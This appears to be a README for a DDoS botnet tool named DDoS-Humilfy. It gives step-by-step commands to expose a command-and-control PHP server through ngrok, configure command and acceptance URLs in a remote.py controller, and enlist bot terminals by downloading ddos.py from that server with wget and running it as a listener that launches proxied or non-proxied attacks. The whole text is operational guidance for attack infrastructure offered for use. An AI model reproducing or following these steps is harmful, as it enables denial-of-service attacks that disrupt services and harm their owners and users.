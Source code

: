 # How to use

---
## Setup botnet remote (Main terminal)
``` bash
curl -sSL https://ngrok-agent.s3.amazonaws.com/ngrok.asc | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list && sudo apt update && sudo apt install ngrok
ngrok ngrok config add-authtoken <token>
php -S 127.0.0.1:8080 | ngrok http 8080 # In DDoS-Humilfy directory
```
---
---
```bash
# On another session in main terminal
python3 remote.py
```
- Now, once you successfully run the remote program type this:
```bash
set-kkey
KKey-cjs: https://<ngrok link>/command.json
KKey-cph: https://<ngrok link>/command.php
KKey-aph: https://<ngrok link>/accepted.php
```
---


---
## Setup botnet receiver (In another terminal)
- You need another terminal for your botnet.
``` bash
wget https://<ngrok link>/ddos.py
python3 ddos.py --listener # Use --no-proxy if you want to launch non-proxied DDoS attack
```
---
---
## Input
``` python
[~] Command host: https://<ngrok link>/command.json
[~] Accept host: https://<ngrok link>/accepted.php
[+] Waiting for commands..
```
---
